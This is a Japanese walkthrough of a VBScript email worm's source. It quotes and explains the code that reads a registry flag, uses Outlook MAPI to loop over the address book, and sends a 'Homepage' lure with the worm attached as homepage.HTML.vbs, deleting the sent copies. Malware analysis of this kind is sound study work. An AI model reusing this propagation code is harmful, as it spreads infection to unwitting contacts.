 16: If WS.regread ("HKCU\software\An\mailed") <> "1" then
17: Mailit()
18: End If

　regreadはレジストリの読み込みです。("HKCU\software\An\mailed" != 1)なら
ば17:を実行することになります。もちろん最初にこのプログラム（ウイルス）が
実行された場合 1 なわけが無いので(というか"HKCU\software\An\mailed"自体無
いので)Mailit()が実行されることになります。ではMailit()に飛びます。

48: Function Mailit()
49: On Error Resume Next
50: Set Outlook = CreateObject("Outlook.Application")
51: If Outlook = "Outlook" Then
52: Set Mapi=Outlook.GetNameSpace("MAPI")

　ここでOutlookを起動しています。MAPIとはOutlookを外部から制御するAPIでも
しOutlookが存在すればそれを使いますよ。ということでしょう。

53: Set Lists=Mapi.AddressLists

　住所録を取得します。

54: For Each ListIndex In Lists

　リストの一番初めから終わりまでをForで回す。

55: If ListIndex.AddressEntries.Count <> 0 Then
56: ContactCount = ListIndex.AddressEntries.Count
57: For Count= 1 To ContactCount
58: Set Mail = Outlook.CreateItem(0)
59: Set Contact = ListIndex.AddressEntries(Count)

　56:は登録されているメールアドレスの数を取得しているのだろうと思います。
58:はメールの作成を行う処理です。最後の59:AddressEntriesでメールアドレス
をゲットします。

60: Mail.To = Contact.Address
61: Mail.Subject = "Homepage"
62: Mail.Body = vbcrlf&"Hi!"&vbcrlf&vbcrlf&"You've got to see this page! It's really cool ;O)"&vbcrlf&vbcrlf

　Mail.Toは送り先のアドレス。Mail.SubjectはSubject。Bodyは本文です。つまり

-------------------------------------------------
Subject: Homepage

Hi!

You've got to see this page! It's really cool ;O)

-------------------------------------------------

というようなメールが送られることでしょう。もちろん添付ファイル(ウイルス)
もつけられます。

65: Set Attachment=Mail.Attachments
66: Attachment.Add Folder & "\homepage.HTML.vbs"
67: Mail.DeleteAfterSubmit = True
68: If Mail.To <> "" Then
69: Mail.Send
